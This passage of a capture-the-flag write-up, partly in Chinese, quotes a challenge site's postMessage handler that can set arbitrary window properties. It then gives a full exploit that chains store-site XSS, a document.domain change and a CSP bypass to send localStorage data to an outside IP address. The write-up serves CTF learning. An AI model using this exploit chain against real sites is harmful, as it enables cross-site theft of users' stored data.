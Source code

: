 ```javascript
userNote = {}    
const set = (function assign(b,c,d,a){if(b.includes(a)){return assign(b.substring(b.indexOf(a)+1),c,d[b.split(a)[0]])}return d[b]=c});

    window.addEventListener('message', (e) => {
        if (e.data && e.origin == "https:\/\/store.prettynote.bycsec404.top") {
            for (let attr in e.data) {
                set(attr, e.data[attr], window, ".")
            }
            console.log(`Current note: ${JSON.stringify(userNote)}`)
        }
    })
```

可以看到每次store站都会反过来向主站postMessage,主站接收到内容后，则会经过set操作，设置userNote 的属性。而这里的set可以做到任意设置window下的属性
![img](https://gitee.com/leonsec/images/raw/master/upload_97e21367b2c8849ad63829c7f7199e67-20211129203446420.png)

所以最后的方法就是，我们用store站的xss反过来向主站postMessage从而设置主站的document.domain,一致后即可访问localStorage,利用跳转bypass CSP 带出flag

exp:

```javascript
<body>
<h3>SOLVE</h3>
<script>
    const url = "https://prettynote.bycsec404.top";
    async function poc() {

        let form = document.createElement("form");
        form.id = "addPost";
        form.method = "POST";
        form.action = `${url}/note/add`;
        form.enctype = "text/plain";

        let src = `<script src=${url}/note>\<\/script>`;
        const payload = 'document.domain=\'bycsec404.top\';parent.parent.postMessage({\'document.domain\':\'bycsec404.top\'},\'*\');setTimeout(()=> parent.parent.location=\'http://120.27.246.202/?\'+parent.parent.localStorage.flag, 200);' + '`<iframe srcdoc=\\"' + src + '\\"></iframe>`';
        let input = document.createElement("input");
        input.name = `{"content":"${payload}", "test":"`
        input.value = 'byc_404"}'

        form.appendChild(input);
        document.body.appendChild(form);

        document.getElementById("addPost").submit();
    }


    (async () => {
        poc();
    })();

</script>
</body>
```
